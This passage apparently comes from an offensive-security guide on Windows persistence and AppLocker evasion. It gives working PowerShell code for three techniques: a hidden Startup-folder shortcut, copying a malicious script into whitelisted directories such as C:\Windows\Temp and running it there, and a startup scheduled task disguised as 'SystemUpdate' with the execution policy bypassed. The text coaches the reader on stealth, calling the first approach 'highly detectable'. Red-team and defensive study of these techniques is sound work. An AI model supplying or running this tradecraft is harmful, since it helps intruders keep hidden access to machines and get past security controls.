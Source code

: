 - Important: This requires administrative privileges, and it's highly detectable. You should pair this with a stealthier persistence mechanism.

#### Create a COM Object Shortcut for Persistence
COM objects provide a way to create shortcuts and tasks that can be run during startup, often bypassing AppLocker since COM-based execution is not always restricted by AppLocker policies. By creating a shortcut to a malicious script in the user’s startup folder, you can ensure persistence across reboots.

```powershell
$wsh = New-Object -ComObject WScript.Shell
$shortcut = $wsh.CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\Persistence.lnk")
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = "-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -Command <command_or_script_path>"
$shortcut.Save()
```
- Explanation:
    - `$wsh = New-Object -ComObject WScript.Shell`: Creates a COM object to interact with the Windows Shell, allowing you to create shortcuts.
    - `$shortcut.CreateShortcut("<path_to_shortcut>")`: Creates a shortcut at the specified path (`Startup` folder in this case, for persistence).
    - `$shortcut.TargetPath`: Specifies the executable to run (`powershell.exe` here).
    - `$shortcut.Arguments`: Sets PowerShell arguments to run your script while bypassing AppLocker and without displaying a window.

- Result: Upon reboot, PowerShell will run the specified script from the Startup folder, ensuring persistence.

#### Using Trusted Locations to Bypass AppLocker
Some directories, such as `C:\Windows\System32\`, `C:\Windows\Tasks\`, or `C:\Windows\Temp\`, may be whitelisted in AppLocker policies. Placing your malicious script in these directories could bypass restrictions.

```powershell
Copy-Item -Path "C:\Temp\malicious_script.ps1" -Destination "C:\Windows\Temp\malicious_script.ps1"
powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -File "C:\Windows\Temp\malicious_script.ps1"
```

#### Create a Scheduled Task for Persistence:
AppLocker often allows execution of scheduled tasks. By creating a scheduled task to execute your PowerShell script, you can bypass AppLocker and establish persistence:

```powershell
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -File C:\Temp\persistence_script.ps1"
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "SystemUpdate" -Description "System Update Task"
```
- Explanation:
    - `New-ScheduledTaskAction`: Specifies the action to run a PowerShell script with execution policy bypass.
    - `New-ScheduledTaskTrigger -AtStartup`: Sets the task to run at system startup.
    - `Register-ScheduledTask`: Registers the scheduled task with a custom name and description.
